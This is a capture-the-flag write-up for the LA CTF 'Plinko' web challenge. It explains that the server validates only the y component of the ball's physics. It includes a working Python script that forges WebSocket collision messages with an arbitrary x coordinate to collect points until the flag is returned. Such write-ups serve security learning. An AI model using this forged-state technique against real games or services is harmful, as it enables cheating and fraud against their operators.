 # Plinko writeups
### Team: UIT.4KySiNguLam

![image](https://github.com/user-attachments/assets/d626dd8c-d45a-4242-8bcb-51bab8cb2218)

## Overview
- This web application allows player **throw** a ball into **Plinko** game through **WebSocket** interaction. When player start a turn, they send a `join` message through **WebSocket** to participate in original state of the ball (location, speed, time). After that, player send a chain of messages stimulate collisions of the ball and obstacle (pins, wall, ground surface).
```javascript
let index = Math.floor(ballPos.x/(1000/19));
if (index < 0) index = 0;
if (index >= multipliers.length) index = multipliers.length-1;
let points = multipliers[index] * 100;
users[req.session['user']].points += points;
if (users[req.session['user']].points > 10000)
    socketSend(ws, points + flag, () => ws.close());
else
    socketSend(ws, points, () => ws.close());
```
- When the ball "fall down" to ground surface (detected when it collide with object have coordinate {x: 500, y: 1000}), web application count "prize" base on width coordinate (x) of the ball.
## Vulnerability
- In the `validatePosition` function, the application only compares the `y` component of the position and velocity based on physical laws (with gravitational acceleration) and only updates the `y` component of the velocity (with the condition that the x component of the velocity remains unchanged—checked by `Math.abs(prevVelo.x - currVelo.x) <= 0.001)`. This means that the `x` component of the position is not verified (except for the initial requirement in the "join" message where `ballPos.x` must be 500). After that, the player is free to override the value of `ballPos.x` in subsequent collision messages..
## Exploitation
1. Send a Valid Join Message
First, send a join message with the ball’s starting position set to `{x: 500, y: 0}` and an initial velocity `(for example, {x: 0, y: 0})`. This satisfies the server’s requirement for the join phase.
2. Override the x-coordinate in Collision Messages
In subsequent collision messages, while you must provide a `y-coordinate` and `y-velocity` that comply with the physics calculations, you are free to choose any value for the `x-coordinate` in position.

For instance, when simulating a collision with the ground `(the obstacle is at {x: 500, y: 1000})`, you can send a collision message with:
- `position`: Set the y-coordinate according to the physics `(e.g., 0.27778)`, but choose an `x-coordinate` that lands in the “lane” with the highest reward (for example, x: 0 if that lane gives the maximum multiplier).
- `velocity`: Provide the corresponding velocity that meets the physics checks `(e.g., {x: 0, y: 0.28333})`.
- `time`: A chosen timestamp `(e.g., 17)` that fits the calculation.
3. Collect Points and Obtain the Flag
Since each successful round `(i.e., a collision with the ground)` awards you points , you can play several rounds. Once your total points exceed 10,000, the server’s logic will trigger a response that appends the flag to the points value, allowing you to capture the flag.
4. Get flag.
- This is my exploit code by python. You can replace your username and password into `username` and `password` variable.

```python
import json
import time
import requests
from websocket import create_connection

chall_url = "https://plinko.chall.lac.tf"
WS_URL   = "wss://plinko.chall.lac.tf"
username = "1234"
password = "1234"

session = requests.Session()

def signup():
    url = f"{chall_url}/signup"
    data = {"username": username, "password": password}
    r = session.post(url, json=data, verify=False)  

def login():
    url = f"{chall_url}/login"
    data = {"username": username, "password": password}
    r = session.post(url, json=data, verify=False)
    if r.status_code != 200:
        exit(1)

def play_round():
    cookies = session.cookies.get_dict()
    cookie_str = "; ".join([f"{k}={v}" for k, v in cookies.items()])
    headers = {"Cookie": cookie_str}
    
    ws = create_connection(WS_URL, header=headers)
    
    join_msg = {
        "msgType": "join",
        "ballPos": {"x": 500, "y": 0},
        "ballVelo": {"x": 0, "y": 0},
        "time": 0
    }
    ws.send(json.dumps(join_msg))
    
    try:
        join_resp = ws.recv()
    except Exception as e:
        print("error", e)
    
    collision_msg = {
        "position": {"x": 0, "y": 0.27778},
        "obsPosition": {"x": 500, "y": 1000},
        "velocity": {"x": 0, "y": 0.28333},
        "time": 17
    }
    ws.send(json.dumps(collision_msg))
    
    try:
        collision_resp = ws.recv()
    except Exception as e:
        collision_resp = ""
    ws.close()
    return collision_resp

def main():
    signup()
    login()
    
    round_count = 0
    flag_found = False

    while not flag_found:
        round_count += 1
        resp = play_round()
        if "lactf{" in resp:
            print("\n[***] Flag received!")
            print(resp)
            flag_found = True
            break

if __name__ == "__main__":
    main()
```
- Just get it.

![image](https://github.com/user-attachments/assets/4ddce572-2ea5-4e40-b482-07f2c2dbe719)


